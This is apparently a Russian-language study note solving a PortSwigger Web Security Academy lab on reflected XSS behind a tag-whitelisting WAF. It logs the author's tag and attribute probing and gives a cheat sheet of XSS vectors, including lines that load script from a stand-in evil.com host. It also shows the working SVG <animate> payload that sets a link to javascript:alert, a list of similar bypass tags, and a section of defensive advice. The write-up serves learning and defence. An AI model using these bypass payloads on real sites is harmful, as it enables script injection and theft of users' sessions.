






эксперт лаба
https://portswigger.net/web-security/cross-site-scripting/contexts/lab-event-handlers-and-href-attributes-blocked
 Reflected XSS with event handlers and `href` attributes blocked

задание:
нужно создать надпись, текст или форму с текстом попуждающим нажать на него
например "нажми сюда"
при нажатии на это - должен показаться аллерт!

вроде как все теги и ивенты, и href блокируются waf

-----

план

найти возможное место для xss
изучить waf
понять как запустить аллерт
понять как добавить/встроить элемент в страницу который может выполнять js код аллерт

----
вот ориг запрос через поиск на сайте



-----

запустил пейлоад на проверку тегов , блокирует/нет waf
пейлоад хдесь [[lab_02_Reflected_XSS]]

###### результаты бутфорса тегов:

GET /?search=< a>                        работает сам по себе / это обычный HTML-тег для создания кликабельных ссылок
GET /?search=< animate>             работает только в контексте < svg>
GET /?search=< image>                работает только в контексте < svg>
GET /?search=< svg>                     а вот и сам svg

только эти теги не блокируются
< svg> < image> < animate> < a> 
----

прогоню к тегу < a>  через интрудер пейлоад с ивентами js пейлоад тут [[lab_02_Reflected_XSS]]

результаты теста:  все варианты ивентов с тегом < a>  ответ 400

----

вот пейлоады которые работают через тег  <а>
```html
<a href="#" onclick="alert(1)">нажми</a>  // блокируется и href и  onclick /и все варианты
<a onclick="alert(1)">нажми</a>
<a href="javascript:alert(1)">нажми</a>
<a href="https://example.com" onclick="alert(1); return false">нажми</a>
<a id="x" onfocus="alert(1)" tabindex=0>нажми</a> // блокируется все подряд,

```

короче! 
я зачетил, что даже когда я вводил чушь полную - то все-равно была блокировка!
значит тут используют белые списки при валидации!!

возможно, белые списки получиться обойти обфускацией ?

`<a%20href="1"%20onclick="alert(1)">нажми</a> `

пробовал, по разному обфусцировать - но нет успеха;

не блокируется только ввод обычного текста

< > не блокируется
< frverzxxx > с любым содержимым внутри блокируется сразу

пропускаются только 
 < a>             но с любыми добавлениями после него - блок
< animate>   и svg пускает
< image>      и svg пускает
< svg>    пускает!

----

возможный пейлоад
`  <svg><animate onbegin=print(1)> `   400 блок
`  <sg><anmate onbgin=prnt(1)> `   400 блок
я поменял все буквы в пейлоаде и он все равно не прошел проверку - значит 100% тут белые списки!

------

нужно как-то используя разрешенные элементы пытаться внести свои элементы!

<a%20href=       вот это пропускает еще
<a%20href=""    уже 400
<a%20href=''      тоже 400
<a%20href""      200
<a%20href''       200
<a%20href%3D""    400    

на знак равно в сочетании с кавычками тригериться ! 

<a%20href<a<a%20href<a%20href<a<a%20href<a%20href<a<a%20href<a%20href<a<a%20href  200

<a%20href>><><><>< /s>   200
<a%20href>><><>< s>< /s>  400

<a%20href< /a>><><><>< /s> 200

не дает открывать новые теги!
но дает зыкрывать любые другие теги и из числа разрешенных

нужно как то использовать < svg> < image> < animate> < a> 
смесь разрешннных проходит <a%20href< /a>><><><>< /scer>< svg>< image>< animate>< a> 200
на кавычки всякие тоже не агрится
html ломает  жОска!



можно устраивать кавычечные ванкханилии!   и равно это 200
`<a%20href</a>><''>"<>''<>'''""</scer><svg>'<image>"<animate><a>""""'''""'"'"`

подкрадывается две мысли:

1 что можно между этих кавычек и разрешенных тегов подсунуть что-то
2 что можно может есть спец какие-то атрибуты кототрые не банит waf

`   ><svg><a><animate>    ` 200


теория из xss  [[JavaScript_БАЗА]]
```html

---- базовые способы ------

<!-- 1. Внутренний скрипт (inline) -->
<script>
    alert(1);
</script>

<!-- 2. Внешний скрипт -->
<script src="https://evil.com/xss.js"></script>

<!-- 3. Инлайн-события (HTML-атрибуты) -->
<button onclick="alert(1)">Click</button>

<div onmouseover="alert(1)">Hover</div>
<body onload="alert(1)">
<input onfocus="alert(1)" autofocus>

<!-- 4. JavaScript: URL -->
<a href="javascript:alert(1)">Click me</a>
<iframe src="javascript:alert(1)"></iframe>
<form action="javascript:alert(1)">

------ продвинутые "" ----

<!-- 5. data: URL -->
<iframe src="data:text/html,<script>alert(1)</script>"></iframe>
<object data="data:text/html,<script>alert(1)</script>"></object>
<embed src="data:text/html,<script>alert(1)</script>">

<!-- 6. blob: URL -->
<script src="blob:https://example.com/1234-5678-90ab-cdef"></script>

<!-- 7. about: URL (не везде) -->
<iframe src="about:blank" onload="alert(1)"></iframe>
<iframe src="about:srcdoc"></iframe>

<!-- 8. srcdoc (HTML5) -->
<iframe srcdoc="<script>alert(1)</script>"></iframe>

----- через теги --------

<!-- 9. CSS-выражения (только старый IE) -->
<div style="width: expression(alert(1))"></div>
<style>div { width: expression(alert(1)); }</style>

<!-- 10. SVG -->
<svg onload="alert(1)"></svg>
<svg><script>alert(1)</script></svg>
<svg><use href="data:image/svg+xml,<svg onload=alert(1)>"></use>

<!-- 11. Meta-теги (старые браузеры) -->
<meta http-equiv="refresh" content="0; url=javascript:alert(1)">

<!-- 12. Link (очень редко) -->
<link rel="stylesheet" href="javascript:alert(1)">
<link rel="import" href="data:text/html,<script>alert(1)</script>">

<!-- 13. Object/Embed с HTML -->
<object type="text/html" data="javascript:alert(1)"></object>
<embed type="text/html" src="javascript:alert(1)">

<!-- 14. Base-тег (меняет пути) -->
<base href="https://evil.com/">
<script src="script.js"></script>  <!-- загрузится с evil.com -->


```


`><svg><a><animate>src=""    `    200

```html

<a href="javascript:alert(1)">Click me</a>

<svg onload="alert(1)"></svg>
<svg><script>alert(1)</script></svg>
<svg><use href="data:image/svg+xml,<svg onload=alert(1)>"></use>

-------------------------------------------------------------------------------------
возможности c  <animate>


Этот тег используется для анимации SVG-элементов. Его опасность заключается в том, что он может изменять атрибуты других тегов через определенный промежуток времени, в том числе добавляя обработчики событий или JavaScript-ссылки

<a>
  <animate attributeName="href" values="javascript:alert(1)" dur="1s" fill="freeze" />
  Click me (but wait a second!)
</a>

камон! не блокируется!
<a><animate%20attributeName="href"%20values="javascript:alert(1)"%20dur="1s"%20fill="freeze"%20/>%20Click%20me%20(but%20wait%20a%20second!)%20</a>


--------------------------------

Анимация атрибута onbegin у самого себя  
Тег `<animate>` имеет собственные обработчики событий, такие как onbegin (срабатывает, когда начинается анимация)
<svg><animate onbegin="alert(1)" attributeName="dur" dur="1s" /></svg>

блокируется!

------------------- %20


**Анимация атрибута `onclick` у другого элемента**  
Можно добавить анимацию, которая наделит любой элемент обработчиком собы

<svg><rect%20width="100"%20height="100"%20fill="red"><animate%20attributeName="onclick"values="alert(1)"%20dur="1s"%20fill="freeze"%20/></rect></svg>


блокируется!

------------------- %20
теперь возможности c <image>

**Загрузка скрипта как картинки (очень опасно)**  
Если сервер не проверяет Content-Type, можно загрузить JS-файл как "картинку" и выполнить его.

<svg>
  <image href="data:image/svg+xml,<svg onload=alert(1)></svg>" />
</svg>

<svg><image%20href="data:image/svg+xml,<svg%20onload=alert(1)></svg>"%20/>%20</svg>

блокируется!


------------------- %20
**Использование атрибута `xlink:href`**  
Старый способ записи ссылок (до SVG2), но всё еще работает

<svg>
  <image xlink:href="data:image/svg+xml,<svg onload=alert(1)>"></image>
</svg>


<svg><image%20xlink:href="data:image/svg+xml,<svg%20onload=alert(1)>"></image></svg>

блокируется!

------------------- %20
**Тег `<foreignObject>`**  
Позволяет внедрять HTML внутрь SVG. Это очень мощный вектор, так как внутри можно использовать обычные HTML-теги и скрипты

<svg>
  <foreignObject width="100" height="100">
    <body xmlns="http://www.w3.org/1999/xhtml">
      <script>alert(1)</script>
    </body>
  </foreignObject>
</svg>

------------------- %20
**Тег `<iframe>` внутри SVG (через `<foreignObject>`)**

<svg>
  <foreignObject width="100" height="100">
    <iframe src="javascript:alert(1)"></iframe>
  </foreignObject>
</svg>


------------------- %20

**CSS-импорт в SVG**  
Если SVG содержит стили, можно импортировать скрипты через CSS (менее вероятно, но возможно).

<svg>
  <style>
    @import url('data:text/css,body{background:red}');
    /* Или даже так: */
    @import url('javascript:alert(1)'); /* Редко работает, зависит от браузера */
  </style>
</svg>

------------------- %20


------------------- %20

```


-----------


```html
<animate>

Этот тег используется для анимации SVG-элементов. Его опасность заключается в том, что он может изменять атрибуты других тегов через определенный промежуток времени, в том числе добавляя обработчики событий или JavaScript-ссылки

<a>
  <animate attributeName="href" values="javascript:alert(1)" dur="1s" fill="freeze" />
  Click me (but wait a second!)
</a>

камон! не блокируется!
<a><animate%20attributeName="href"%20values="javascript:alert(1)"%20dur="1s"%20fill="freeze"%20/>Clickme</a>


--------- РЕШЕНИЕ - ?
но не нажимался этот пейлоад вот почему:

1. <a>...Clickme</a> без <text> — текст был, но он находился в неправильном контексте (прямо в SVG, а не в <text>), поэтому браузер его не отрисовывал как часть ссылки. Кликать было не по чему
   
2. Отсутствие <svg>  в некоторых браузерах SVG-теги вне корневого <svg> могут игнорироваться


```
с ним даже выводящаяся сюда надпись стала реагировать на наведение курсора






вот так выглядит отраженный ответ теперь , видно только Clickme
```html
                       <h1>0 search results for '<a><animate%20attributeName="href"%20values="javascript:alert(1)"%20dur="1s"%20fill="freeze"%20/>Clickme</a>'</h1>
```


теперь нужно сделать чтобы эта клик область была нажимной, а не только меняла цвет передний

дип сик мне подсказывает, что 

вот так нужно

```html

<a>
  <animate attributeName="href" values="javascript:alert(1)" dur="0.1s" fill="freeze" />
  <text x="0" y="20">НАЖМИ СЮДА</text>
</a>

<a><animate%20attributeName="href"%20values="javascript:alert(1)"%20dur="0.1s"%20fill="freeze"%20/><text%20x="0"%20y="20">НАЖМИ_СЮДА</text></a>

не стал кликабельным / алерта нет


------
еще варианты от дип сика , так как я уже сдался, до этого момента я делал сам


<!-- Пэйлоад 1: Анимация + обычный текст, может стать кликабельным после анимации -->
<a><animate%20attributeName="href"%20values="javascript:alert(1)"%20dur="0.1s"%20fill="freeze"%20/>НАЖМИСЮДА</a>    не нажимается


------
------
 200 + НАЖИМАЕТСЯ + ВЫПАДАЕТ АЛЛЕРТ
<!-- Пэйлоад 2: Оборачиваем в svg для поддержки текста -->
<svg><a><animate attributeName="href" values="javascript:alert('1')" dur="0.1s" fill="freeze" /><text x="0" y="20">Click me</text></a></svg>      200 + НАЖИМАЕТСЯ + ВЫПАДАЕТ АЛЛЕРТ
 200 + НАЖИМАЕТСЯ + ВЫПАДАЕТ АЛЛЕРТ
------
------


<!-- Пэйлоад 3: Используем анимацию для создания кнопки через rect -->
<svg><rect width="100" height="30" fill="blue"><animate attributeName="onclick" values="alert(1)" dur="0.1s" fill="freeze" /></rect><text x="10" y="20" fill="white">НАЖМИ</text></svg>      блок 400

<!-- Пэйлоад 4: Пробуем использовать анимацию с событием click на родителе -->
<svg><a><rect width="100" height="30" fill="blue" /><animate attributeName="onclick" values="alert(1)" dur="0.1s" fill="freeze" xlink:href="#rect"/><text x="10" y="20" fill="white">НАЖМИ</text></a></svg>     блок 400

<!-- Пэйлоад 5: Используем image с data URI, но обфусцируем -->
<svg><image><animate attributeName="href" values="data:image/svg+xml,<svg onload=alert(1)>" dur="0.1s" fill="freeze" /></image></svg>      блок 400

```


когда на русский язык перел текст - то лаба решилася

```html
------
------
 200 + НАЖИМАЕТСЯ + ВЫПАДАЕТ АЛЛЕРТ
<!-- Пэйлоад 2: Оборачиваем в svg для поддержки текста -->


<svg><a><animate attributeName="href" values="javascript:alert('1')" dur="0.1s" fill="freeze" /><text x="0" y="20">Click me</text></a></svg>    


200 + НАЖИМАЕТСЯ + ВЫПАДАЕТ АЛЛЕРТ
 
 
------
------
```


вот респонс на рабочий пейлоад



#### РАЗБОР пейлоада

| Элемент                                                                   | Роль                                                                                                                                                                                                                                                                                                                                                   |
| ------------------------------------------------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ |
| **`<svg>`**                                                               | Создает SVG-контекст. Без него теги `<a>`и `<animate>` в такой конструкции могут не работать корректно.                                                                                                                                                                                                                                                |
| **`<a>`**                                                                 | Это будущая ссылка. Изначально у нее нет атрибута `href`, поэтому WAF ее пропускает.                                                                                                                                                                                                                                                                   |
| **`<animate attributeName="href" values="javascript:alert('1')" ... />`** | Сердце обхода. < animate> и он может динамически менять атрибуты, епта! Этот тег разрешен. Он говорит браузеру: "возьми у родительского тега `<a>` атрибут `href` и через 0.1 секунды (`dur="0.1s"`) измени его значение на `javascript:alert('1')`". WAF видит только статичный HTML, где `href` нет. Атрибут появляется уже после загрузки страницы. |
| **`<text x="0" y="20">Click me</text>`**                                  | Создает видимый текст. В SVG текст обязательно должен быть внутри этого тега с координатами, иначе он не отобразится. Без него пользователю не на что будет кликать. Без этих координат текст тупо не нажимался, так как этой области не было!                                                                                                         |
| **`fill="freeze"`**                                                       | Фиксирует изменения анимации, чтобы `href` остался навсегда, а не исчез после окончания анимации.                                                                                                                                                                                                                                                      |


важно знать - < animate>  может менять атрибуты динамически

##### ПОХОЖИЕ НА < animate> ТЕГИ котор динамически меняют атрибуты или выполняют код через свои события!!!!!!!!! с подлецой типочки! 
```js
**Анимационные теги (SVG)**

- `<set>` — добавляет атрибут мгновенно [](https://github.com/angular/angular/security/advisories/GHSA-v4hv-rgfq-gp49)[](https://cvepremium.circl.lu/vuln/ghsa-v4hv-rgfq-gp49)
    
- `<animateMotion>` — для анимации движения [](https://github.com/angular/angular/security/advisories/GHSA-v4hv-rgfq-gp49)[](https://cvepremium.circl.lu/vuln/ghsa-v4hv-rgfq-gp49)
    
- `<animateTransform>` — для трансформаций [](https://github.com/angular/angular/security/advisories/GHSA-v4hv-rgfq-gp49)[](https://cvepremium.circl.lu/vuln/ghsa-v4hv-rgfq-gp49)
    
- `<discard>` — удаляет элементы, может триггерить что-то в процессе
    

**Ключевые атрибуты для атаки**

- `attributeName="href"` или `xlink:href` — позволяет анимации подменить ссылку [](http://portswigger.cn/research/subpage/5.html)[](https://portswigger.net/research/svg-animate-xss-vector)
    
- `attributeName="onclick"` или `onbegin` — некоторые WAF это пропускают [](https://secdb.nttzen.cloud/security-advisory/npm/NPM:GHSA-XC2R-JF2X-GJR8)
    
- `values="javascript:alert(1)"` — главная обфускация протокола [](http://portswigger.cn/research/subpage/5.html)[](https://portswigger.net/research/svg-animate-xss-vector)
    

**MathML теги (редкие, но мощные)**

- `<math>`, `<annotation>`, `<annotation-xml>` — могут содержать `href` атрибуты [](https://github.com/angular/angular/security/advisories/GHSA-v4hv-rgfq-gp49)[](https://cvepremium.circl.lu/vuln/ghsa-v4hv-rgfq-gp49)
    

**SVG-контейнеры**

- `<foreignObject>` — позволяет внедрять HTML внутрь SVG [](https://www.linkedin.com/posts/vaidikpandya_bugbounty-xss-svg-activity-7392410503735709696-RC3r)
    
- `<use>` — может ссылаться на внешние ресурсы
```

#### Как защититься от XSS с обходом через белый список и динамические атрибуты:

``` js

1. Экранирование контекста. Самое главное — превращать специальные символы <, >, ", ' в их HTML-сущности <, >, ", ' при выводе пользовательского ввода на страницу. В этой лабе сервер просто вставлял текст как есть, что позволило внедрить целый SVG-код
    
2. Content Security Policy. Настроить заголовок CSP с директивой script-src 'self' и запретом на unsafe-inline. Это блокирует выполнение inline-скриптов и javascript: в ссылках. Также директива sandbox для iframe может помочь
    
3. Санация SVG. Если приложению нужны SVG-изображения, их нужно очищать от потенциально опасных элементов и атрибутов. Удалять теги <script>, <animate>, <set> и атрибуты onbegin, onload и подобные
    
4. Валидация на уровне атрибутов. WAF должен проверять не только наличие тегов, но и появление запрещенных атрибутов даже в разрешенных тегах. В данном случае href в <a> должен быть заблокирован всегда, если он не ведет на разрешенные URL
    
5. HttpOnly флаг для сессионных кук. Это не предотвратит XSS, но не даст украсть сессию через document.cookie, даже если код выполнится
    
6. Регулярное обновление WAF. Атака с использованием <animate> для динамического добавления href — не новая, но многие фильтры ее пропускают. Базы сигнатур нужно обновлять
    
7. Ограничение времени жизни сессии. Даже если куки украдут, они быстро станут недействительными
    
8. Ручное тестирование. Автоматы часто пропускают такие нестандартные обходы, поэтому нужен пентестер, который знает эти трюки
   
```


